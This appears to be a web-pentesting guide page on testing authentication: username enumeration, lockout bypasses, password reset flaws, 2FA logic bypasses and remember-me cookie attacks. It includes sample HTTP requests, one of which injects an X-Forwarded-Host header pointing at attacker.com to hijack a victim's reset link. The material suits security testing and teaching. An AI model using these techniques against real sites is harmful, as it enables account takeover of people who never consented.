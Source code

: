 ```yaml
---
title: "Authentication"
weight: 2
description: "Explore key authentication testing techniques like username enumeration, password reset flaws, 2FA bypasses, and account lockout analysis."
---
```


## Username Enumeration

Finding valid usernames is the first step in many attacks. Test every feature interacting with user accounts (e.g., login, registration, password recovery).

<details><summary>Common Default Usernames</summary>
Default usernames to test:

```sh
admin
administrator
root
firstname.lastname@somecompany.com
test
guest
```
</details>

### Registration Form

If the application states "Account already exists" when registering a known email, it leaks user existence. 

### Response Comparison

Compare server responses when entering:
- A valid username with incorrect passwords
- An invalid username with incorrect passwords

Even minor differences in error messages can reveal valid usernames.

> **Tip**: Use Burp Suite's "Grep - Match" feature in Intruder to detect response variations.

### Response Timing Analysis

Some systems check passwords only if the username is valid. Sending an excessively long password may create a delay, indicating the username exists.

---

## Password Attacks

[Cracking passwords](/misc/password-cracking) is a key part of authentication testing.


---

## Account Locking Mechanisms

Check if accounts lock after multiple failed attempts (e.g., 3 or 5 attempts). Understand the lockout mechanism:

- **Testing Responses**: Attempt logins with an incorrect password on a locked account, then with the correct password. If responses differ, the lock might be bypassable.
- **IP-Based Lockout**: 
    - Try to see if the failed attempts counter resets if the IP owner logs in successfully. (Make sure that concurrent requests is set to 1)
    - Try bypassing by adding the `X-Forwarded-For` header.


---

## Password Reset Vulnerabilities

### Controlling the Username Parameter

If the reset request contains a `username` parameter, test if it can be changed:

```http
POST /forgot-password HTTP/2
Host: vulnerable-website.com

user=<victim>&new-pwd=NewPass123&token=xyz
```

### Predictable Password Reset URLs

Some sites use static or weakly random reset links. Test if a simple enumeration allows taking over accounts.

```http
http://vulnerable-website.com/reset-password?user=victim-user
```

### Analyze Randomness

Use **Burp Sequencer** to analyze the quality of randomness of the token.

### Hijacking Password Reset Links

Try injecting an `X-Forwarded-Host` header to change the reset link destination:

```http
POST /forgot-password HTTP/2
Host: vulnerable-website.com
X-Forwarded-Host: attacker.com

username=victim
```

---

## Two-Factor Authentication (2FA) Bypasses

### Brute-Forcing OTP

If the OTP code is short (e.g., 4-6 digits), brute-force it.

### Skipping 2FA Steps

Check if you can directly access logged-in pages without completing 2FA.

### Exploiting 2FA Logic Flaws
```http
# Step 1: Login with attacker account
POST /login HTTP/1.1
Host: vulnerable-website.com

username=attacker&password=qwerty
```

```http
# Step 2: Server sets a session cookie
HTTP/1.1 200 OK
Set-Cookie: session=attacker
```

```http
# Step 3: Request 2FA page with attacker's session
GET /login-steps/second HTTP/1.1
Cookie: session=attacker
```

```http
# Step 4: Submit the attacker's OTP using the victim's session
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: session=victim

verification-code=123456
```


---

## "Remember Me" Cookie Attacks

- Study how "Remember Me" cookies are generated (e.g., Base64 encoding or hashed values).
- Attempt brute-forcing attack.

---

## Password change

See if you can change the password of an arbitrary user. 

* Look for a hidden username parameter that you can control.
* Brute-force password when you enter your current password.
* Test all current & new password combinations.

```md
current password: <wrong>, new-password-1=XXX, new-password-2=XXX
current password: <wrong>, new-password-1=XXX, new-password-2=YYY
current password: <correct>, new-password-1=XXX, new-password-2=XXX
current password: <correct>, new-password-1=XXX, new-password-2=YYY
```